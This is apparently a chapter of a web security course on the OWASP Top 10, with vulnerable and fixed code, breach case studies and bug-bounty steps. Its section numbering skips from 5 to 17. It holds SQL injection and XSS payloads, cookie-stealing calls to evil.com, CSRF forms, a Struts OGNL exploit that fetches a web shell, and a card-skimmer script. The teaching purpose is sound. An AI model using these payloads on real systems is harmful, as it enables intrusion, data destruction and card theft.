




# Chapter 5: Web Security

> **Prereq:** Chapter 4 (System & Software Security) — web apps build on OS foundations.
> **Next:** Chapter 6 (IAM) — web authentication relies on secure identity management.
---

## Learning Objectives

- Master OWASP Top 10 (2021) — every category, exploit mechanics, and mitigation
- Exploit and defend against SQL Injection, XSS, CSRF, SSRF, XXE, LFI/RFI, deserialization, request smuggling
- Use Burp Suite, ZAP, sqlmap, JWT manipulation tools in hands-on testing
- Analyze real-world breaches: Equifax 2017, GitHub Memcrashed 2018, Facebook SSRF 2019, British Airways Magecart 2018
- Apply secure headers, CSP, WAF/RASP, and bug-bounty methodology
### Chapter at a Glance

<!-- Image Gallery -->
<section class="lesson-visuals" aria-label="Visual learning resources">
  <header><span>VISUAL LEARNING</span><h2>See it. Review it. Remember it.</h2></header>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/05-web-security/handwritten-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Handwritten notes</strong>Condensed notes for deliberate review.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/05-web-security/sticky-notes.png" target="_blank" rel="noopener">
    
    <span><strong>Sticky-note revision</strong>Fast recall prompts for revision.</span>
  </a>
  <a class="lesson-visual-card" href="../../assets/images/lessons/cyber-security/05-web-security/visual-explanation.png" target="_blank" rel="noopener">
    
    <span><strong>Visual concept guide</strong>A connected explanation of the key ideas.</span>
  </a>
</section>
<!-- End Image Gallery -->


| # | Section | Key Concept |

|---|---------|-------------|

| 1 | OWASP Top 10 (2021) | Risk-scored framework for web app defenses |

| 2 | Injection (SQL/NoSQL/OS/LDAP) | Data-command separation using parameterized queries |

| 3 | XSS (Reflected/Stored/DOM) | Context-aware output encoding + CSP |

| 4 | CSRF | Anti-CSRF tokens + SameSite cookies |

| 5 | SSRF | URL allowlist + network segmentation |

| 6 | Deserialization | Type checking + integrity verification |

| 7 | HTTP Request Smuggling | Request boundary validation |

| 8 | LFI/RFI → RCE | Path sanitization + allowlists |

| 9 | XXE | Disable external entity processing |

| 10 | Secure Headers (CSP, HSTS, XFO) | Browser-enforced defense layers |

| 11 | Practical Exploitation Labs | sqlmap, Burp Suite, ZAP, JWT forge |

| 12 | Case Studies | Equifax, GitHub, Facebook, British Airways |

| 13 | Bug Bounty Methodology | Recon → exploit → report workflow |

| 14 | Interview Corner | 15 Q&As on web security fundamentals |

---

## OWASP Top 10 (2021) — Overview Table

| Rank | Category | Description | Risk Score | Exploitability | Prevalence | Detectability | Technical Impact |

|------|----------|-------------|------------|----------------|------------|---------------|------------------|

| A01 | Broken Access Control | Users access resources outside permissions | 6.5 | Easy (2) | Widespread (3) | Average (1) | Severe (4) |

| A02 | Cryptographic Failures | Weak TLS, exposed secrets, hardcoded keys | 5.5 | Moderate (2) | Widespread (3) | Hard (1) | Severe (3) |

| A03 | Injection | SQL/NoSQL/OS/LDAP injection | 7.5 | Easy (3) | Common (2) | Hard (1) | Severe (4) |

| A04 | Insecure Design | Architectural flaws before code | 6.0 | Hard (1) | Common (2) | Hard (1) | Severe (4) |

| A05 | Security Misconfiguration | Default creds, open buckets, verbose errors | 5.5 | Easy (3) | Widespread (3) | Easy (2) | Moderate (2) |

| A06 | Vulnerable Components | Deprecated libraries, unpatched CVEs | 6.0 | Moderate (2) | Widespread (3) | Hard (1) | Moderate (2) |

| A07 | Identification & Auth Failures | Weak passwords, no MFA, session fixation | 6.5 | Easy (3) | Common (2) | Hard (1) | Severe (4) |

| A08 | Data Integrity Failures | Unsigned updates, insecure deserialization | 5.5 | Hard (1) | Rare (1) | Hard (1) | Severe (4) |

| A09 | Security Logging & Monitoring | Missing audit trails, delayed detection | 4.5 | Hard (1) | Widespread (3) | Easy (2) | Moderate (2) |

| A10 | SSRF | Server-side request forgery | 5.5 | Moderate (2) | Common (2) | Hard (1) | Severe (3) |

---

## 1. Broken Access Control (A01)

**Real-World Analogy:** A hotel key card that opens every room instead of only your own.
**Technical Explanation:** The server fails to verify that the authenticated user owns the resource they request. Attackers manipulate id parameters, HTTP methods, or path traversal to access admin functions or other users data.
### Attack Steps (IDOR)


1. User logs in — gets session cookie
2. User clicks "My Profile" — browser sends GET /api/user/123
3. Attacker changes 123 to 456 — GET /api/user/456
4. Server returns user 456 data — no ownership check
### Vulnerable Code (Java Spring Boot)


```java
@RestController
public class UserController {
    @GetMapping("/api/user/{id}")
    public User getUser(@PathVariable Long id) {
        return userRepository.findById(id).orElseThrow();
    }
}

```

### Secure Code


```java
@GetMapping("/api/user/{id}")
public User getUser(@PathVariable Long id, Authentication auth) {
    User user = userRepository.findById(id).orElseThrow();
    if (!user.getUsername().equals(auth.getName())) {
        throw new AccessDeniedException("Not your resource");
    }
    return user;
}

```

### Mitigation


- Deny by default — every access check fails closed
- Use centralized ACLs, not scattered if-checks
- Rate-limit API endpoints
- Log and alert on repeated 403s
**Risk:** High | **Complexity:** Low | **OWASP Score:** 6.5
---

## 2. Cryptographic Failures (A02)

**Real-World Analogy:** A safe with a glass door.
**Technical Explanation:** Sensitive data (passwords, credit cards, PII) is transmitted or stored without proper encryption. Includes weak TLS versions, missing HTTPS, hardcoded API keys, MD5/SHA-1 hashing.
### Common Failures


| Failure | Example | Risk |

|---------|---------|------|

| Weak TLS | TLS 1.0/1.1 enabled | Eavesdropping, downgrade |

| Missing HSTS | No Strict-Transport-Security header | SSL stripping |

| Weak hashing | MD5, SHA-1 for passwords | Rainbow-table crack |

| Hardcoded secrets | password=letmein in source | Full compromise |

| No encryption at rest | Plaintext DB column | Data breach |

### Vulnerable Code


```java
// BAD: MD5 hashing for passwords
String hash = DigestUtils.md5Hex(password);
// BAD: Hardcoded secret
private static final String API_KEY = "sk-live-abc123";

```

### Secure Code


```java
// GOOD: BCrypt hashing
String hash = BCrypt.hashpw(password, BCrypt.gensalt(12));
// GOOD: Environment variable for secrets
private static final String API_KEY = System.getenv("PAYMENT_API_KEY");

```

### Mitigation


- Enforce TLS 1.2+ with HSTS
- Use bcrypt/argon2/scrypt for passwords
- Encrypt data at rest (AES-256-GCM)
- Rotate secrets via vault (HashiCorp Vault, AWS Secrets Manager)
**Risk:** High | **Complexity:** Medium | **OWASP Score:** 5.5
---

## 3. Injection (A03)

### 3.1 SQL Injection


**Real-World Analogy:** A teller who reads your name from a slip, but also executes whatever else you write on it as a bank command.
**Technical Explanation:** User input is concatenated into SQL queries without sanitization, allowing the attacker to execute arbitrary SQL.
#### SQLi Types

| Type | Subtype | Description | Data Retrieval |

|------|---------|-------------|----------------|

| In-Band | Error-based | Extract via error messages | `" AND 1=CONVERT(int, @@version) --` |

| In-Band | Union-based | Use UNION to append results | `" UNION SELECT username,password FROM users --` |

| Blind | Boolean-based | True/false page differences | `" OR 1=1 --` vs `" OR 1=2 --` |

| Blind | Time-based | Sleep pauses confirm injection | `"; WAITFOR DELAY "0:0:5" --` |

| Out-of-Band | DNS/HTTP | Exfiltrate via DNS lookup | `EXEC xp_dirtree "\\attacker.com\file"` |

#### Attack Steps (Classic SQLi)

1. App constructs: SELECT * FROM users WHERE id = '$_GET["id"]'
2. Attacker inputs: `" OR 1=1 --`
3. Query becomes: SELECT * FROM users WHERE id = "" OR 1=1 --"
4. All rows returned — authentication bypassed
#### Vulnerable Code (PHP)


```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = '$id'";
$result = mysqli_query($conn, $query);
while ($row = mysqli_fetch_assoc($result)) {
    echo "User: " . $row['username'];
}
?>

```

#### Exploit Payloads


```sql
-- Basic bypass
'" OR "1"="1
-- Union-based extraction
'" UNION SELECT username, password FROM users --
-- Blind boolean
'" OR (SELECT SUBSTRING(password,1,1) FROM users WHERE id=1) = "a" --
-- Time-based (MySQL)
'" OR IF((SELECT SUBSTRING(@@version,1,1))="8", SLEEP(5), 0) --
-- Stacked queries (MSSQL)
"; DROP TABLE users; --
-- Out-of-band (MySQL)
'" LOAD_FILE("\\\\attacker.com\\share\\file") --

```

#### Dry Run — Blind Boolean SQLi


```

Target: http://example.com/product?id=1
Goal: Extract admin password hash character by character
Step 1: id=1 → 200 OK (product shown)
Step 2: id=1" → 500 Error (injection detected)
Step 3: id=1" AND 1=1 -- → 200 OK (true)
Step 4: id=1" AND 1=2 -- → 404 (false — blind confirmed)
Step 5: id=1" AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username="admin")="a" -- → 404
Step 6: id=1" AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username="admin")="b" -- → 404
...
Step N: id=1" AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username="admin")="$" -- → 200
=> First char = "$"
=> Repeat for positions 2..N

```

#### Secure Code (Parameterized Query)


```java
// Java with PreparedStatement
String sql = "SELECT * FROM users WHERE id = ?";
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setInt(1, Integer.parseInt(request.getParameter("id")));
ResultSet rs = stmt.executeQuery();

```


```python
# Python with parameterized query

cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))

```


```csharp
// C# with parameterized query
using var cmd = new SqlCommand("SELECT * FROM Users WHERE Id = @Id", conn);
cmd.Parameters.AddWithValue("@Id", userId);

```

### 3.2 NoSQL Injection


**Real-World Analogy:** Writing on a form in a language the interpreter understands differently than intended.
**Technical Explanation:** MongoDB, Couchbase, etc. accept operators ($gt, $ne, $where) in JSON queries. Unfiltered input passes these operators through.
#### Vulnerable Code (Node.js + MongoDB)


```javascript
// BAD: Direct object injection
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    const user = db.collection('users').findOne({
        username: username,
        password: password
    });
    res.json(user);
});

```

#### Exploit


```json
POST /login HTTP/1.1
Content-Type: application/json
{ "username": "admin", "password": { "$ne": "" } }

```

Query becomes `db.users.findOne({ username: "admin", password: { $ne: "" } })` — matches any non-empty password.
#### Secure Code


```javascript
// GOOD: Validate types
app.post('/login', (req, res) => {
    const { username, password } = req.body;
    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).send('Invalid input');
    }
    const user = db.collection('users').findOne({
        username: username,
        password: password
    });
});

```

### 3.3 OS Command Injection


**Real-World Analogy:** A receptionist who reads your request aloud and also shouts whatever else you whisper.
#### Vulnerable Code


```java
// BAD: Runtime.exec() with user input
String cmd = "ping " + request.getParameter("ip");
Runtime.getRuntime().exec(cmd);

```

#### Exploit


```http
GET /ping?ip=127.0.0.1;cat%20/etc/passwd HTTP/1.1

```

Server executes: ping 127.0.0.1;cat /etc/passwd
#### Secure Code


```java
// GOOD: Validate input format
String ip = request.getParameter("ip");
if (!ip.matches("^\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}$")) {
    throw new ValidationException("Invalid IP");
}
ProcessBuilder pb = new ProcessBuilder("ping", ip);

```

### 3.4 LDAP Injection


**Technical Explanation:** Attackers inject LDAP filter syntax to extract directory data.
#### Vulnerable Code


```java
String filter = "(uid=" + username + ")";
DirContext ctx = new InitialDirContext(env);
NamingEnumeration<?> results = ctx.search("dc=example,dc=com", filter, null);

```

#### Exploit


```text
username = *)(uid=*))
Filter becomes: (uid=*)(uid=*))
=> Returns all users

```

#### Secure Code


```java
// GOOD: Escape LDAP special characters
String safe = username.replaceAll("([\\\\\\*()\\0])", "\\\\$1");
String filter = "(uid=" + safe + ")";

```

**Risk:** Critical | **Complexity:** Low-Medium | **OWASP Score:** 7.5
---

## 4. Cross-Site Scripting (XSS)

**Real-World Analogy:** A guestbook where writing malicious script makes every future visitor run your code.
### XSS Types Comparison


| Property | Reflected XSS | Stored XSS | DOM-based XSS |

|----------|--------------|------------|---------------|

| Payload origin | URL/request parameter | Server database | Client-side URL fragment |

| Persistence | None (one request) | Permanent on server | None (page load) |

| Delivery | Phishing email with link | Comment, profile, forum post | Crafted link with # fragment |

| Detection | Easy (WAF signatures) | Medium (needs input scanning) | Hard (client-side only) |

| Impact | Medium | Critical | Medium-High |

| Example | ?q=<script>alert(1)&lt;/script&gt; | post=<script>fetch("/steal")&lt;/script&gt; | # |

### 4.1 Reflected XSS


**Technical Explanation:** Server reflects user input in the response without encoding. Payload delivered via crafted URL.
#### Attack Steps

1. Attacker crafts URL: http://victim.com/search?q=<script>new Image().src="http://evil.com/steal?c="+document.cookie&lt;/script&gt;
2. Victim clicks link
3. Server echoes: <div>You searched for: <script>...</script>&lt;/div&gt;
4. Browser executes script, sending cookies to attacker
#### Vulnerable Code


```java
@GetMapping("/search")
public String search(@RequestParam String q, Model model) {
    model.addAttribute("query", q);
    return "results";
}

```


```jsp
<div>You searched for: <%= request.getParameter("q") %></div>

```

#### Reflected XSS Bypasses


```html
<!-- Filter: strip <script> -->
<ScRiPt>alert(1)</ScRiPt>
<!-- Filter: strip onerror -->


<!-- Filter: strip parentheses -->

<!-- Filter: strip http -->
<svg onload=document.location="//evil.com">

```

### 4.2 Stored XSS


#### Attack Steps

1. Attacker posts comment: <script>fetch("https://evil.com/log?c="+document.cookie)&lt;/script&gt;
2. Server stores malicious comment in database
3. Every visitor loads the page — comment rendered — script executes
4. Attacker collects session cookies
#### Vulnerable Code


```python
# BAD: Flask route storing raw HTML

@app.route('/comment', methods=['POST'])
def post_comment():
    text = request.form['text']
    db.execute("INSERT INTO comments (text) VALUES (?)", (text,))
    return redirect('/comments')
@app.route('/comments')
def show_comments():
    rows = db.execute("SELECT text FROM comments")
    html = "".join(f"<div>{row[0]}</div>" for row in rows)
    return html

```

#### Secure Code


```python
def escape_html(text):
    return (text.replace("&", "&amp;")
                .replace("<", "&lt;")
                .replace(">", "&gt;")
                .replace('"', "&quot;")
                .replace("'", "&#x27;"))
@app.route('/comments')
def show_comments():
    return render_template('comments.html', comments=rows)

```

### 4.3 DOM-based XSS


**Technical Explanation:** Vulnerability exists entirely in client-side JavaScript. Server never sees the payload.
#### Vulnerable Code


```javascript
// BAD: Reading from URL and injecting innerHTML
const name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;

```

#### Secure Code


```javascript
// GOOD: Use textContent
document.getElementById('greeting').textContent = 'Hello, ' + name;
// Or use DOMPurify if HTML is required
document.getElementById('greeting').innerHTML = DOMPurify.sanitize(name);

```

#### DOM XSS Sinks

| Sink | Example | Risk |

|------|---------|------|

| innerHTML | el.innerHTML = userInput | Critical |

| outerHTML | el.outerHTML = userInput | Critical |

| document.write() | document.write(userInput) | Critical |

| eval() | eval(userInput) | Critical |

| setTimeout(string) | setTimeout(userInput) | High |

| setAttribute() | el.setAttribute("onclick", userInput) | High |

| href assignment | location.href = userInput | Medium |

### XSS Mitigation Layer Table


| Layer | Defense | Bypass Risk |

|-------|---------|-------------|

| 1 — Output Encoding | HTML entity encode &lt;>&"\' | Low if context-aware |

| 2 — CSP | script-src "self" blocks inline | Medium (if nonce/hash used) |

| 3 — HttpOnly | Blocks cookie theft via XSS | Low (but does not prevent keylogging) |

| 4 — Input Validation | Allowlist patterns | Medium (XSS in attributes) |

| 5 — DOMPurify | Library-level sanitization | Low |

**Risk:** High | **Complexity:** Low-Medium | **OWASP Score:** 6.5
---

## 5. Cross-Site Request Forgery (CSRF)

**Real-World Analogy:** A thief takes a signed blank cheque you left on the table and fills in their name.
**Technical Explanation:** CSRF tricks an authenticated user into submitting a state-changing request (transfer funds, change email) without their consent. Browser automatically includes cookies.
### Attack Steps


1. Victim logs into bank.com (gets session cookie)
2. Victim visits evil.com while still logged in
3. evil.com loads: 
4. Browser sends request with cookie — server thinks victim authorized it
#### Vulnerable Code


```java
@PostMapping("/transfer")
public String transfer(@RequestParam String to, @RequestParam int amount) {
    bankService.transfer(getCurrentUser(), to, amount);
    return "success";
}

```

### CSRF Payload Examples


```html
<!-- Auto-submitting form (most reliable) -->
<form id="csrf" action="http://bank.com/transfer" method="POST">
    <input name="to" value="attacker">
    <input name="amount" value="10000">
</form>
<script>document.getElementById("csrf").submit();</script>
<!-- Image tag (GET-based) -->

<!-- XMLHttpRequest -->
<script>
fetch("http://bank.com/transfer", {
    method: "POST",
    credentials: "include",
    body: new URLSearchParams({to: "attacker", amount: "10000"})
});
</script>

```

### Protection Mechanisms


| Mechanism | Description | Effectiveness |

|-----------|-------------|---------------|

| Anti-CSRF Token | Random token bound to session, validated per request | Very High |

| SameSite cookie | SameSite=Lax or Strict prevents cross-site cookie send | High |

| Origin/Referer check | Validate Origin header matches expected | Medium |

| Custom Header | Require X-Requested-By: XMLHttpRequest | Medium |

| Re-authentication | Prompt password for sensitive actions | Very High |

### CSRF Token Implementation


```java
// Server generates token
String token = UUID.randomUUID().toString();
session.setAttribute("csrf_token", token);
model.addAttribute("csrf_token", token);
// Form includes token
// <input type="hidden" name="_csrf" value="${csrf_token}">
// Server validates
@PostMapping("/transfer")
public String transfer(@RequestParam String _csrf, ...) {
    String expected = (String) session.getAttribute("csrf_token");
    if (!expected.equals(_csrf)) throw new CsrfException();
}

```

**Risk:** High | **Complexity:** Low | **OWASP Score:** 6.5
## 17. Case Studies: Equifax, GitHub, Facebook, British Airways

### Case Study 1: Equifax 2017 → Apache Struts CVE-2017-5638


**Attack Type:** OGNL Injection via Content-Type header (RCE)
**Impact:** 147 million records stolen
**Cost:** $1.4 billion+
#### Full Attack Chain

1. **Reconnaissance:** Attacker identifies Equifax uses Apache Struts 2 with REST plugin
2. **Vulnerability:** CVE-2017-5638 → Struts 2 REST plugin fails to sanitize Content-Type header
3. **Exploit → OGNL Injection:** Attacker sends a crafted Content-Type header containing OGNL expression
4. **RCE:** Expression executes, downloads web shell to server
5. **Persistence:** Web shell deployed to /opt/apache/webapps/shell.jsp
6. **Lateral Movement:** Internal access used to reach database servers
7. **Exfiltration:** 147M records (names, SSNs, DOB, addresses) over encrypted channels
8. **Delay:** Breach undetected for 76 days (no logging/monitoring → A09)

```http
# OGNL injection payload in Content-Type header

Content-Type: %{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget http://evil.com/shell.jsp -O /opt/apache/webapps/shell.jsp').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

```

#### Lessons Learned

- Patch vulnerable components immediately (A06)
- Network segmentation would limit lateral movement
- Proper logging detects breaches faster
- WAF blocking OGNL patterns could prevent exploit
### Case Study 2: GitHub DDoS 2018 (Memcrashed)


**Attack Type:** Amplified DDoS via memcached UDP reflection
**Impact:** 1.35 Tbps DDoS → largest at the time
**Duration:** ~20 minutes
#### Attack Chain

1. **Scan:** Attacker scans internet for memcached servers with UDP port 11211 exposed
2. **Amplification:** 1 byte request produces 51,000 bytes response (51,000x amplification)
3. **Spoof:** Source IP spoofed to GitHub's IP address
4. **Amplify:** Memcached sends 51KB response to GitHub
5. **Scale:** Botnet of ~150K memcached servers amplifies to 1.35 Tbps

```bash
# Memcached amplification test (authorized testing only)

echo -e "stats\r\n" | nc -u vulnerable-memcached 11211

```

#### Mitigations

- Disable UDP on memcached
- Firewall port 11211 from internet
- Implement BCP38 (source IP validation)
- Use DDoS mitigation services (Cloudflare, Akamai)
### Case Study 3: Facebook 2019 SSRF


**Attack Type:** SSRF in Facebook Graph API
**Impact:** Internal server access
#### Attack Chain

1. **Endpoint:** Facebook image proxy fetches images from user-provided URLs
2. **Bypass:** DNS rebinding to bypass domain allowlist
3. **Exploit:** POST to image proxy with malicious URL
4. **Rebind:** Domain resolves to allowed IP, then switches to 169.254.169.254
5. **Theft:** AWS IAM credentials for internal services retrieved
#### Mitigations

- Block metadata endpoints (169.254.169.254, metadata.google.internal)
- Validate resolved IP, not just domain
- Use random ephemeral hostnames to prevent DNS rebinding
- Network segmentation: app tier should not have metadata access
### Case Study 4: British Airways 2018 → Magecart


**Attack Type:** Third-party JavaScript skimmer
**Impact:** 380,000 payment cards stolen
**Cost:** 20M pounds fine (GDPR)
#### Attack Chain

1. **Compromise:** Attacker gains access to British Airways web server
2. **Inject:** Malicious JS snippet added to Modernizr.js library (loaded on payment pages)
3. **Skim:** Script captures form data (name, card number, CVV, expiry) on checkout
4. **Exfiltrate:** Data sent to attacker-controlled domain (baway.com)

```javascript
// Simplified Magecart skimmer
(function() {
    const origSubmit = HTMLFormElement.prototype.submit;
    HTMLFormElement.prototype.submit = function() {
        const cardData = {};
        for (const el of this.elements) {
            if (el.name.includes('card') || el.name.includes('cvv')) {
                cardData[el.name] = el.value;
            }
        }
        new Image().src = 'https://evil.com/steal?data=' + btoa(JSON.stringify(cardData));
        return origSubmit.apply(this, arguments);
    };
})();

```

#### Mitigations

- Subresource Integrity (SRI) for all third-party scripts
- Strict CSP to block unauthorized exfiltration
- Regular audits of all loaded JS
- Payment page isolation (separate iframe or subdomain)
- Self-host critical third-party scripts
---

## 18. Bug Bounty Methodology

### Reconnaissance Phase


```text
1. Subdomain enumeration:
   subfinder -d target.com | httpx
2. URL discovery:
   gau target.com | grep "?id="   # Look for SQLi
   katana -u target.com
3. Tech stack detection:
   whatweb target.com
   wappalyzer (browser extension)
4. Parameter discovery:
   ffuf -w params.txt -u "https://target.com/FUZZ"
5. Archive analysis:
   curl "https://web.archive.org/cdx/search/cdx?url=*.target.com&output=json"

```

### Exploitation Phase


```text
SQLi:    sqlmap -r request.txt --batch
XSS:     dalfox url
SSRF:    interactsh collaborator
IDOR:    Burp Autorize extension
SSTI:    tplmap -u "http://target.com/greet?name=*"

```

### Reporting Phase


```text
1. Vulnerability title (e.g., "Reflected XSS on /search endpoint")
2. Steps to reproduce (numbered, with HTTP request/response)
3. Impact (what an attacker can achieve)
4. Severity (Critical/High/Medium/Low)
5. Remediation (encode output, validate input, etc.)
6. Proof of concept (curl command or HTML PoC file)

```

### Golden Rules


- Never automate without throttle (DoS = ban)
- Always scope first (in-scope vs out-of-scope)
- Document every finding with screenshots + requests
- Respect rate-limit and stop.txt files
- Disclosure: coordinated only, never full-disclose without permission
---

## 19. Insecure Design (A04)

**Real-World Analogy:** A house built with bedroom doors that only lock from the outside.
**Technical Explanation:** Security flaws exist in the architecture, not just the implementation. Missing threat modeling, lack of rate limiting, improper trust boundaries.
### Common Insecure Design Patterns


| Pattern | Description | Example |

|---------|-------------|---------|

| Missing Rate Limiting | No throttling on login/reset | Unlimited brute force |

| Broken Object Level Auth | No per-object permission checks | Anyone views any record |

| Missing Auth at Design | Assumes "user cannot reach admin API" | API guessing |

| Client-Side Trust | Security relies on client-side validation | Price stored in hidden field |

